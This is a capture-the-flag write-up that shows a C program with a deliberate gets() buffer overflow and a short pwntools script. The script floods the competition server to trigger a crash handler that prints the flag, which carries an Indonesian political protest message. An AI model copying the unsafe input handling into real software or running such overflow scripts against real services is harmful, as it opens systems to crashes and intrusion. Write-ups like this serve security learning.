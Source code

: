 is pwn really that hard?

- Author: mirai
- nc minictf.ucs.or.id 2002

```
gacoan nya takeaway mas, nambah udang keju satu
```

Inspect the source code.

```c
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}

void signal_handler()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[1000];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    signal(SIGSEGV, signal_handler);
    char buffer[0x800];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```

There is a callback function that act as a `SIGSEGV` (Segmentation Fault Signal) handler. So whenever the program ran into segv, `signal_handler()` will be called.

How to trigger it? Well, crash the program by sending an enormous input to `buffer`.

Code:

```py
from pwn import *

HOST = "minictf.ucs.or.id"
PORT = 2002

io = remote(HOST, PORT)

# Build payload: just something very long
payload = b"A" * 5000

io.sendlineafter(b"input something here: ", payload)
io.interactive()
```

![](image.png)

Flag:

```
UCS{Catet ya: Penyerbuan UNPAS & UNISBA malam ini oleh aparat Polri & TNI hanya beberapa jam setelah Presiden mengumumkan kenaikan pangkat untuk anggota Kepolisian akibat demo beberapa hari terakhir, malah makin menjadi, semua aparat sama saja, masih mau menyudutkan demonstran?}
```

Btw, #ACAB.
